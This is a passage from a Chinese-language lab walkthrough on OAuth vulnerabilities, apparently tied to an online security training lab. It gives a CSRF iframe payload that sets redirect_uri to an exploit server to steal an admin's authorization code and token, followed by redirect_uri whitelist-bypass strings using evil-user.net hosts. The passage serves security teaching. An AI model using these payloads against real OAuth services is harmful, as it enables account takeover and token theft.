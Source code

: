 第一次登录：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202305051525935.png-water_print](assets/1699407708-3366e042fb9a2ea5790c939363b6484d.svg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202305051525935.png-water_print")

退出后重新登录：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202305051531546.png-water_print](assets/1699407708-3366e042fb9a2ea5790c939363b6484d.svg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202305051531546.png-water_print")

修改 `redirect_uri`：`https://exploit-0ad8005303814d4180b43e2501ed0024.exploit-server.net/exploit`

构造 CSRF 请求 Payload：`<iframe src="https://oauth-0a8500b803764d57807c3d2b02cd0008.oauth-server.net/auth?client_id=r9sfjw4x66elhfvknv296&redirect_uri=https://exploit-0ad8005303814d4180b43e2501ed0024.exploit-server.net/exploit&response_type=code&scope=openid%20profile%20email"></iframe>`

在日志中获取管理员 token：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202305051535342.png-water_print](assets/1699407708-3366e042fb9a2ea5790c939363b6484d.svg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202305051535342.png-water_print")

利用管理员 token 进行登录：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202305051536846.png-water_print](assets/1699407708-3366e042fb9a2ea5790c939363b6484d.svg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202305051536846.png-water_print")

#### [](#222-flawed-redirect_uri-validation)2.2.2 Flawed redirect\_uri validation

有些 OAuth 服务或对`redirect_uri` 参数开启白名单校验，如果校验规则存在问题，同样可以绕过，比如：

-   绕过字符串匹配：
    -   `https://default-host.com &@foo.evil-user.net#@bar.evil-user.net/`
-   提交重复的 redirect\_uri 参数检测是否存在服务端参数污染漏洞：
    -   `https://oauth-authorization-server.com/?client_id=123&redirect_uri=client-app.com/callback&redirect_uri=evil-user.net`
